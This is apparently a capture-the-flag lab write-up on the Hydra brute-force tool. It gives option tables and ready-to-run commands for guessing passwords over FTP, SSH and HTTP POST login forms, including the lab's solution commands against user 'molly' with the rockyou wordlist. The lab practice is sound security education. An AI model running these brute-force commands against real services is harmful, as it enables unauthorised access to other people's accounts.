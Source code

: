 ```yaml
---
title: "Hydra"
author: "hacker_newb"
date: "2023-08-01"
categories: [hashes, password]
image: Hydra.png
---
```



Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.


## Hydra

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.


- you can use a whole bunch of protocols (FTP,HTTP,IRC,SSH, POP3, etc) to brute force

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use `admin:password` as the default login credentials, which is obviously not strong enough.

- hydra is installed in Kali
- `sudo apt install hydra` 


## Task 2

Hydra commands `hydra -l <USERNAM> -P <PATH TO PASSWORDS> IP_address -t <NUM> <PROTOCOL>`.

| option  |  description      |
|---------|-------------------|
| `-l`    | username login    |
| `-P`    | list of passwords |
| `-t`    | number of threads |


- brute force FTP, username is 'user' and using a password list (passwordlist.txt) then syntax `hydra -l user -P passwordlist.txt ftp://IP_address`

- brute force SSH, `hydra -l root -P passwords.txt IP_address -t 4 ssh`


- brute force web forms, must know the type of request GET/POST, can see source code to see request types


Web Form

| option            | description                     |
|-------------------|---------------------------------|
| `-l`              | username for login              |
| `-P`              | password list                   |
| `http-post-form`  | POST form                       |
| `<path>`          | login URL (login.php)           |
| `<login_creds>`   | `username=^USER&password^PASS^` |
| `<invalid_cred>`  | login fail response             |
| `-v`              | verbose output for every attempt|


- `sudo hydra USERNAME WORDLIST IP_address http-post-form "<PATH>:<login_creds>:<invalid_cred>"`
- 


Inside the AttackBox, go to IP_address and see a Username and Password login form.

Question: _Use Hydra to bruteforce molly's web password. What is flag 1?_

- `hydra -l molly -P /usr/share/wordlists/rockyou.txt IP_address http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect" -V`
- hydra quickly finds the password and you can login and get the flag

Question: _Use Hydra to bruteforce molly's SSH password. What is flag 2?_

- `hydra -l molly -P /usr/share/wordlists/rockyou.txt IP_address ssh`
- `ssh molly@IP_address` > `ls` > `cat flag2.txt` and get the flag




















